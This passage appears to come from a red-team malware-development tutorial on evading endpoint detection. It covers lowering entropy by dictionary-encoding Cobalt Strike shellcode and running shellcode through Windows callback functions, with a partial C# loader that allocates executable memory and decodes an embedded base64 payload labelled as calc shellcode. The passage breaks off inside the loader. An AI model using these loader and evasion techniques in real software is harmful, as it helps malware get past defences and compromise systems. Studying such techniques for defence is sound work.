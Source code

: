 After compiling the program, calculating entropy of these payloads greatly reduces the overall entropy, bypassing the thresholds of file entropy that some EDRs check.
We can use the `Shannon-Entropy.py` script to calculate Shannon entropy of our compiled `DictionShellcode.exe` payload which has dictionary word encoded Cobalt Strike shellcode. See that the entropy is only 5.16 which is MUCH lower and normal-looking compared to the previous examples!

<img src="/assets/images/maldev101/shannon-entropy-of-dictionshellcode.png" alt="dictionshellcode-entropy" width="720px"/>

### Alternate Shellcode Execution Methods (aka callback functions)

A *slightly* lesser known technique that's been around for a while is [callback functions](https://learn.microsoft.com/en-us/dotnet/framework/interop/callback-functions). As per Windows documentation, callback functions are "*code within a managed application that helps an unmanaged DLL function complete a task*". The goal of using this technique is to avoid APIs such as `CreateThread` or `NtCreateThreadEx` and instead use callback functions to complete some task (i.e. execute our shellcode). Note I also discussed callback functions for malware evasion in more detail in my 2024 talk (see [SecTor 2024 slides](https://i.blackhat.com/SecTor-2024/Sector-24-Summerhill-SimplifiedMalwareEvasion.pdf)).

I have a public GitHub repo called [CSharp-Alt-Shellcode-Callbacks](https://github.com/wsummerhill/CSharp-Alt-Shellcode-Callbacks/tree/main) for this exact use case. In the repo, I provide C# examples of callback functions which can all be used to launch shellcode. The same can be done in C/C++ as well!

As an example, if we take the code sample from `` (shown below):

```csharp
using System;
using System.Runtime.InteropServices;
using System.Text;

namespace AltCallbacks
{
    class Callback
    {
        const uint MEM_COMMIT = 0x00001000;
        const uint PAGE_EXECUTE_READWRITE = 0x40;
        const uint LOCALE_SYSTEM_DEFAULT = 0x0800;

        [DllImport("kernelbase.dll")]
        public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, UInt32 flAllocationType, UInt32 flProtect);

        [DllImport("user32.dll")]
        public static extern bool EnumDesktops(IntPtr hwinsta, IntPtr lpEnumFunc, IntPtr lParam);

        static string key = "THISISMYKEY";

        static void Main(string[] args)
        {
            // Calc shellcode
            string base64 = @"qADKt7m7jVlLRRgFCRkBGAUFaJkgEd8aKRvCAVURwBd5HMM7AwFc+hMBCGidAHiT5W8sJUlpeRWJgF4IUoy7phcYBQDCAWnYD2UDRInfyMFTSVMF3IsxPhxJmQPCG1UdwAV5HUmZsB8bspAKzm3cAEiFBGKEEXqF9RWJgF4IUoxhqzCoGEsFd0EWdIg+nQEQwwl3AFKdPwrOVRwMwhNVGkyJCs5d3ABIgwgLDAEVHAMVEAgKCAkF2qdlGAa3qQsIChcRwFewA7e2rBQb91hLRVlUSElTAd7AWEpFWRXyeNgm1LKM8KVEfkII6e/G8MS0kBHXjGFvTy9H2bClLFHzDkA7PCdZEgTQjrecMCg/LncuPTxU";

            byte[] decoded = Convert.FromBase64String(base64);
            byte[] shellcode = new byte[decoded.Length];

            for (int i = 0; i < decoded.Length; i++)
```